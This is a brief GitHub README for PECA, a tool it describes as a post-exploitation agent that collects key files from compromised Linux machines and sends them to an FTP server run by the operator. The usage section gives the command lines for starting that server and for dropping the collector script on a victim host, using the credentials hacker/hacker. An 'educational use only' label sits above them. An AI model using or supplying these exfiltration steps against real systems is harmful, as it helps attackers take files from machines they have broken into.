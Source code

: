 # PECA
Post Exploitation Collection Agent

Note: For educational use only
```
            ____  _______________
           / __ \/ ____/ ____/   |
          / /_/ / __/ / /   / /| |
         / ____/ /___/ /___/ ___ |
        /_/   /_____/\____/_/  |_|
    Post Exploitation Collection Agent 
```
##### Intro:
    Peca was designed to help collect key files from linux 
    machines after exploitation has occured.
    
##### Use:

Simple start the server *Sudo is needed for port 21*
```
    ./server.py --ip <iphere> --port 21 --user hacker --password hacker
```

Then drop the peca script on the client
```
    ./peca.py --server <iphere> --port 21 --user hacker --password hacker
```
